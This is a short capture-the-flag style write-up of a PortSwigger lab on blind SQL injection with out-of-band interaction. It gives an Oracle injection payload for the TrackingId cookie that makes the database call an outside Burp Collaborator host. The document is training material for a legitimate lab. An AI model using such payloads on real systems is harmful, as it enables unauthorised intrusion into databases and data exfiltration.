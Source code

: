 # Write-up: Blind SQL injection with out-of-band interaction
Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band>
Difficulty: PRACTITIONER  
 

## Lab description

![alt text](<img/1.png>)

## Steps

### Enumeration

Using burpsuite and capturing a request, in Cookie header, we see that it contains a `TrackingId` parameter, which is vulnerable to blind sql injection according to problem statement.

### Exploitation

Using the SQL Injection Cheat Sheet of PortSwigger at (CheatSheet)[https://portswigger.net/web-security/sql-injection/cheat-sheet]

Found payload for DNS lookup for Oracle

`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`

So, after using `UNION` and `--` for commenting the further SQL query we can exploit this vulnerability.

Final payload will look like this in burpsuite Cookie header
`TrackingId=jnbRf8w3KNa4ISCj'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//uwu7827ldto1jk31e02earqbj2psdh.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;`

I used Burpsuite Collaborator to receive the DNS lookup requests by going to Burp -> Burp Collaborator Client -> Copy to Clipbaord. And then inserted the collaborator URL in the payload and received the results.
I also used `URL encode key-characters` option of burpsuite to quickly encode by payload. So this gave the below results.

![alt text](img/2.png)

Hence, the lab is sovled.

![alt text](img/3.png)